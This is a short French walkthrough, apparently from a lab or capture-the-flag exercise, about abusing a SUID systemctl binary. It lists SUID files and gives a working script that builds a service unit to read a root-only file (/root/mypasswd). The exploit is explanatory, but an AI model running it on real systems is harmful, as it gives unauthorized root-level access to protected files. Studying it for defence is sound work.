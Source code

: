 Vulnérabilité SUID avec systemctl
===

Recherche de tous les fichiers en SUID sur le serveur via :
```bash
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/mount
/bin/systemctl
/bin/passwd
/bin/sudo
/bin/newgrp
/bin/mount
[...]
```

On remarque que **/bin/systemctl** est de type **SUID**.
Après quelques recherches, on remarque qu'on peut exploiter cette faille avec :

```bash
sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/mypasswd"
[Install]
WantedBy=multi-user.target' > $TF

./systemctl link $TF

./systemctl enable --now $TF
```

Ce script permet ici, d'afficher le contenu présent dans **/root/mypasswd**.